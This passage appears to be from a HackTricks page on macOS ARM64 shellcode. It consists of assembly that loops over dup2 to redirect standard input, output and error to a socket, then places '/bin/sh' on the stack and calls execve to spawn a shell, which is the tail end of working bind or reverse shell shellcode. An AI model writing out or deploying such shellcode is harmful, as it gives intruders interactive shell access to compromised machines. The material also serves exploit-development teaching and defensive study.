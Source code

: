 ```armasm
call_dup:
    // dup(s, 2) -> dup(s, 1) -> dup(s, 0)
    mvn  x0, x3
    lsr  x2, x2, #1
    mov  x1, x2
    mov  x16, #90
    svc  #0x1337
    mov  x10, xzr
    cmp  x10, x2
    bne  call_dup

call_execve:
    // execve("/bin/sh", 0, 0)
    mov  x1, #0x622F
    movk x1, #0x6E69, lsl #16
    movk x1, #0x732F, lsl #32
    movk x1, #0x68, lsl #48
    str  x1, [sp, #-8]
    mov	 x1, #8
    sub  x0, sp, x1
    mov  x1, xzr
    mov  x2, xzr
    mov  x16, #59
    svc  #0x1337
```

{{#include ../../../banners/hacktricks-training.md}}




